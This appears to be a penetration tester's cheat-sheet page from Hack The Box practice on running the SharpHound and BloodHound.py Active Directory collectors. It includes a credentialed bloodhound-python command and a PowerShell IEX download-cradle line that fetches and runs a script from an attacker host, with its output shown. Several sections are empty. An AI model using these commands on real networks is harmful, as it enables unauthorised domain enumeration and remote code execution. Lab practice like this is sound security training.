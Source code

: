 # SharpHound Ingestor/Collector

### Meaningful filename (use this)
```
.\SharpHound -c all --outputprefix HTB-Sauna
.\SharpHound.exe -c all --outputprefix HTB-Sauna
.\SharpHound.ps1 -c all --outputprefix HTB-Reel
Invoke-BloodHound -c all
```

### Default filename
```
.\SharpHound -c all
.\SharpHound.exe -c all
```

### [SharpHound Community Edition](https://support.bloodhoundenterprise.io/hc/en-us/articles/17481151861019)

### Ingestor
[BloodHound.py](https://medium.com/@anastasisvasileiadis/bloodhound-py-v0-5-releases-a-python-based-ingestor-for-bloodhound-aa054771f4ff)

https://github.com/dirkjanm/BloodHound.py
```

```

### bloodhound-python produce output in json
--zip                 Compress the JSON output files into a zip archive
```
bloodhound-python -c all -u svc-alfresco -p s3rvice -d htb.local -ns $ip --zip
```

### BEFORE
```
PS C:\Users\tom\a> gcm | sls invoke-b
Invoke-BpaModel
```

### 
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/SharpHound.ps1')
```

### AFTER
```
PS C:\Users\tom\a> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/SharpHound.ps1')                             
PS C:\Users\tom\a> gcm | sls invoke-b                                                                                           

Invoke-BloodHound                                                                                                               
Invoke-BpaModel
```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
TLDR